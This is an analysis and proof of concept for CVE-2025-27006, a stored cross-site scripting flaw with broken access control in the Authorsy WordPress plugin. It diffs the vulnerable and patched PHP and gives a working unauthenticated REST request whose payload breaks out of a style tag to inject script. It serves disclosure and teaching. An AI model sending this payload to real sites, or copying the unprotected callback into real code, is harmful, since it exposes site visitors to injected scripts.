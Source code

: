 # CVE-2025-27006 Analysis & POC


---

The vulnerability exists in the **Authorsy** plugin for WordPress prior to version **1.0.6**. This could allow an attacker to inject malicious code (e.g., redirect scripts, ads, or other HTML payloads) into the website, which would execute when visitors open the page.

* **CVE ID**: [CVE-2025-27006](https://www.cve.org/CVERecord?id=CVE-2025-27006)
* **Product**: [WordPress Authorsy Plugin](https://wordpress.org/plugins/authorsy/)
* **Vulnerability Type**: Cross Site Scripting
* **Affected Versions**: <= 1.0.5
* **CVSS severity**: Medium (6.5)
* **OWASP Top 10**: A1: Broken Access Control
* **Required Privilege**: Subscriber

> Although the description requires **Subscriber** privileges, it can actually be exploited **Unauthenticated**.

---

## Requirements

* [**Local WordPress and Debugging**](https://w41bu1.github.io/posts/wordpress-local-and-debugging/)
* **Authorsy**: v1.0.5 (vulnerable) and v1.0.6 (patched)
* **Diff tool**: **meld** or any tool to compare two versions

---

## Analysis

The plugin allows custom CSS, stores it in `wp_options`, and injects it directly into the `<style>` tag on pages. However, users can interact with the API to modify CSS without proper **access control**, leading to **Broken Access Control** and potential **XSS** if malicious payloads are inserted.

### Patch Diff

Use a diff tool to compare vulnerable and patched versions. Notice clear differences in two files: **core/settings/api-settings.php** and **core/enqueue-inline/enqueue-inline.php**.

**File core/enqueue-inline/enqueue-inline.php**

```php
public function custom_inline_css()
{
    $custom_css  = '';
    $ea_custom_css = authorsy_get_option('ea_custom_css');
    if(is_single()){
        $custom_css.= $ea_custom_css;
    }
    
    $custom_css .= "
    :root { 
        --ea-color-main: $primary_color;  
    }
    "
    wp_add_inline_style('authorsy-custom-css', $custom_css);
}
```

User data is inserted without validation, leaving it vulnerable to **XSS**.

Patched version:

```php
public function custom_inline_css()
{
    $custom_css  = '';
    $ea_custom_css = authorsy_get_option('ea_custom_css');
    if(is_single() && !empty($ea_custom_css)){
        // Sanitize and escape to prevent XSS
        $ea_custom_css = wp_strip_all_tags($ea_custom_css);
        $ea_custom_css = esc_html($ea_custom_css);
        $custom_css.= $ea_custom_css;
    }
    
    $custom_css .= "
    :root { 
        --ea-color-main: $primary_color;  
    }
    "
    wp_add_inline_style('authorsy-custom-css', $custom_css);
}
```

Sanitization ensures only safe CSS is injected.

![diff 1](diff1.png "Diff showing changes in enqueue-inline.php to sanitize custom CSS")

**File core/settings/api-settings.php**

Vulnerable:

```php
'permission_callback' => function () {
    return true;
},
```

Patched:

```php
'permission_callback' => function () {
    return current_user_can('manage_options');
},
```

The permission callback now restricts access to **admins**, mitigating **Broken Access Control** and indirectly reducing **XSS** risk.

![diff 2](diff2.png "Diff showing REST API permission callback changes in api-settings.php")

### How it works

`custom_inline_css()` is hooked to [`wp_head`](https://developer.wordpress.org/reference/hooks/wp_head/). When WordPress renders the `<head>` section, this function concatenates user options from `authorsy_get_option()` into `$custom_css` and adds it inline:

```php
$custom_css  = authorsy_get_option('ea_custom_css');
```

Since this data is stored in the database, this is **Stored XSS**.

---

### Exploit

Send a **POST** request to `/wp-json/authorsy/v1/settings` with an XSS payload:

```http
POST /wp-json/authorsy/v1/settings HTTP/1.1
Host: localhost
Content-Type: application/json

{
"primary_color":"</style><script>alert(document.domain)</script><style>"
}
```

The payload closes the existing `<style>` and injects a `<script>` tag. Visiting any page will execute the XSS.

![XSS](xss.png "Injected XSS payload in <head> via custom CSS")

```html
<style>
    :root { 
        --ea-color-main: </style><script>alert(document.domain)</script><style>;  
    } 
</style>
```

---

## Conclusion

The `CVE-2025-27006` vulnerability in **Authorsy <= 1.0.5** demonstrates **Broken Access Control** combined with **XSS**. Root causes:

1. REST API lacks proper access control (`permission_callback` always true).
2. Custom CSS is inserted without **sanitization**, enabling injection of `<script>` tags.
3. Nonce verification does not stop execution when invalid, making security checks ineffective.

**Key takeaways**:

* Always use proper `permission_callback` to prevent **Broken Access Control**.
* Sanitize and escape user input before rendering in HTML/CSS/JS to prevent **XSS**.

---

## References

[Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[WordPress Authorsy Plugin <= 1.0.5 is vulnerable to Cross Site Scripting (XSS)](https://patchstack.com/database/wordpress/plugin/authorsy/vulnerability/wordpress-authorsy-plugin-1-0-5-cross-site-scripting-xss-vulnerability)

---

